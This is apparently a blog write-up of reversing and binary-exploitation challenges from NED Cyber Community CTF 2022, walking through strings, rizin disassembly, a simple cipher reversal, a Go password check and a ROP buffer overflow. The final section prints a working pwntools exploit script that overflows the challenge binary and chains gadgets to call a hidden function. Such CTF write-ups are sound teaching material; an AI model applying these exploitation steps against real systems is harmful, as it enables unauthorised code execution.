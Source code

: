 ```yaml
---
title: "NCC CTF 2022 - Rev & BinExp Challenges Writeup"
author: "Signore"
date: 2022-07-20
summary: "Walkthrough of Reversing & Binary Exploitation challenges presented at NED Cyber Community CTF 2022"
description: ""
categories: ["CTF Writeups"]
tags: ["NCC", "reversing", "rop",]
series: [""]
keywords: ["rev", "binary", "r2", "radare2", "rizin", "reverse engineering", "ghidra"]
ShowToc: true
cover:
  image: "images/cover-ncc-ctf-2022.png"
  caption: "cover"

---
```


:bulb: Rizin is a fork of radare2, one of the most popular reverse engineering tools.

## Reversing Warmup

We run `strings` on the binary and get our flag:

{{< terminal title="Terminal" >}}
![](chall-1.png)
{{< /terminal >}}

I later ran the binary, and it just gave the flag. Silly me!
{{< terminal title="Terminal">}}
![](chall-11.png)
{{< /terminal >}}
## Can You C Me

Running the binary asks us for correct password which we don't know yet.

Upon opening the binary with rizin, we can see our flag right there but it's scattered. We can also see another string which resembles a password.
{{< terminal title="Terminal" >}}
![](chall-20.png)
{{< /terminal >}}

Providing that password to the binary, we get our flag:
{{< terminal title="Terminal" >}}
![](chall-21.png)
{{< /terminal >}}

## Modulus Encryption

The flag for the challenge has been encrypted using the `encryption.py` python script and the generated output is the `output.txt` file. Our goal is to decrypt the flag.

The script is taking input data as `flag.txt`. The `encrypt` function gets the unicode code of each character present in the file with `ord()` and adds some integers to it. Then, it converts the characters back to ASCII with `chr()`.
{{< terminal title="Terminal" >}}
![](chall-30.png)
{{< /terminal >}}

We take the encrypted data `output.txt` as input. After getting the unicode, instead of adding, we modify the original technique a bit by subtracting the integers and then converting back to ASCII.

Upon running the modified script, we get the flag.
{{< terminal title="Terminal" >}}
![](chall-31.png)
{{< /terminal >}}

## Make it Go!

Running the binary asks us to enter password.

Opening the challenge file in `rizin`, we `seek` to `main` function and disassemble it. 
{{< terminal title="Terminal" >}}
![](chall-40.png)
{{< /terminal >}}

Going a bit down, we can see the `Enter_Password` string which is later being printed in the console with a `call` to `Fprint`:
{{< terminal title="Terminal" >}}
![](chall-41.png)
{{< /terminal >}}

Going futher down, we see there is the call to `Fscanln` which is taking user input. In the next instructions, there's a string comparison being made and then there is the `jne` (jump if not equal) instruction from which we can deduce that there's a condition being checked.

We can see that the user input is being compared to `0x45ea856`.
{{< terminal title="Terminal" >}}
![](chall-42.png)
{{< /terminal >}}

On providing the hex number to our binary, we get the flag:
{{< terminal title="Terminal" >}}
![](chall-43.png)
{{< /terminal >}}


## Pokemon Evolution

:bulb: [Here](http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf) is a nice resource for ROP.

We are given challege files as `pokemon_challenge.zip`. The binary prints out some ASCII art and asks us for input `Feed :`

We open the challenge binary in `cutter` (GUI for rizin). I have the decompiler plugin installed, so we navigate to `Decompiler` tab.

Along `main` and `register_name` functions, we can see another function `hacked`. In the decompiled code, we can see that an `if` condition is checking the function arguments. We can also see the values against which the params are being compared. Let's keep note of these values.

![](chall-50-cutter.png)

After trying random input lengths for quite a bit, the offset for RIP comes out to be `24`.
{{< terminal title="Terminal" >}}
![](chall-51.png)
{{< /terminal >}}

Now that we have RIP under control, we need to find the memory addresses of `hacked` funtion and ROP gadgets.

As we studied [here](http://localhost:1313/blog/posts/pwn-0x00-warmup/#03-architectures-comparison), if the binary was 32-bit, we could have just pushed the function arguments onto the stack. But, as our binary is 64-bit and arguments are being accessed through `registers`, we'll take the help of ROP gadgets to achieve our goal. 

We can find the memory address of the `hacked` function with gdb and ROP gadgets with `ropper`.

{{< terminal title="Terminal" >}}
![](chall-52-0.png)
{{< /terminal >}}
{{< terminal title="Terminal" >}}
![](chall-52-1.png)
{{< /terminal >}}

Putting it all together, our final exploit script looks like this:
{{< terminal title="VSCodium - exploit.py">}}
```py {linenos=true}
#!/usr/bin/python
from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = './pokemon_evolve'
elf = context.binary = ELF(exe, checksec=False)

padding="A"*24
hacked_function_addr = 0x40119a
pop_rdi = 0x401196
pop_rsi = 0x401198

payload = flat(padding, pop_rdi, 0xdeadbeefdeadbeef,
    pop_rsi, 0xc0debabec0debabe, hacked_function_addr)

io = start()
io.recvuntil("Feed :")
io.sendline(payload)
io.interactive()
```
{{< /terminal >}}

On running the exploit, we successfully execute `hacked` function and bypass the conditional check by providing right arguments which, along with the beautiful dragon, returns the contents of `flag.txt`.
{{< terminal title="Terminal" >}}
![](chall-53.png)
![](chall-54.png)
{{< /terminal >}}

Since I did the challenge really late, the remote server wasn't responding anymore and I could pwn the binary locally only.

Initially, my exploit wasn't working and I was going mad about it.<br>
Later, @MoLover shared his exploit script with offset `24` while my exploit had `22`. Thanks to him, as soon as I changed the offset of RIP in my exploit it, eventually, worked!